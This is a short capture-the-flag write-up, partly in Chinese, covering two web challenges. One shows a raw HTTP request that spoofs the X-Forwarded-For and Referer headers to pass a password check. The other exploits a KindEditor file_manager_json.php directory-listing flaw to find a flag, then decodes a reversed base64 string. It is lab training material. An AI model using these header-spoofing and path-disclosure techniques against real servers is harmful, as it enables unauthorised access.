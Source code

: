 ## Web 17

```
POST / HTTP/1.1
Host: 218.76.35.74:65280
Content-Length: 13
Cache-Control: max-age=0
Origin: http://218.76.35.74:65280
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://www.iie.ac.cn 
X-Forwarded-For:10.10.20.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close

password=cafe
```

----

## Web 18 


搜下kindeditor漏洞

其实是路径泄漏

http://218.76.35.74:65180/kindeditor/php/file_manager_json.php?path=./

找到flag地址
http://218.76.35.74:65180/kindeditor/attached/flag_clue.php

得到一个倒置的base64 
倒置下，解码即可

```
Python 2.7.11 (default, Dec 16 2015, 11:23:08) 
[GCC 4.2.1 Compatible Apple LLVM 7.0.0 (clang-700.1.76)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> s="=0nYvpEdhVmcnFUZu9GRlZXd7pzZhxmZ"
>>> print s[::-1]
ZmxhZzp7dXZlRG9uZUFncmVhdEpvYn0=
>>> import base64
>>> print base64.b64decode("ZmxhZzp7dXZlRG9uZUFncmVhdEpvYn0="
... )
flag:{uveDoneAgreatJob}
>>> 

```
